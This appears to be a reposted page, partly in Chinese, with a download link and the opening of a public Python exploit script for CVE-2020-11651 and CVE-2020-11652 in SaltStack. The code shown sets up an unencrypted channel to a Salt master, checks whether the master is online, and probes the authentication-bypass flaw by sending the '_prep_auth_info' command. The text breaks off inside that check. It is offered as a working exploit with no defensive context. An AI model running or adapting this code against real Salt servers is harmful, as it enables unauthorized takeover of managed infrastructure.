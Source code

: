 

[下载地址](https://github.com/jasperla/CVE-2020-11651-poc/blob/master/exploit.py)



```python
#!/usr/bin/env python
#
# Exploit for CVE-2020-11651 and CVE-2020-11652
# Written by Jasper Lievisse Adriaanse (https://github.com/jasperla/CVE-2020-11651-poc)
# This exploit is based on this checker script:
# https://github.com/rossengeorgiev/salt-security-backports

from __future__ import absolute_import, print_function, unicode_literals
import argparse
import datetime
import os
import os.path
import sys
import time

import salt
import salt.version
import salt.transport.client
import salt.exceptions

def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

# --- check funcs ----

def check_connection(master_ip, master_port, channel):
  print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
  sys.stdout.flush()

  # connection check
  try:
    channel.send({'cmd':'ping'}, timeout=2)
  except salt.exceptions.SaltReqTimeoutError:
    print("OFFLINE")
    sys.exit(1)
  else:
    print("ONLINE")

def check_CVE_2020_11651(channel):
  print("[+] Checking if vulnerable to CVE-2020-11651... ", end='')
  sys.stdout.flush()

  try:
    rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
  except:
    print('ERROR')
    return None
```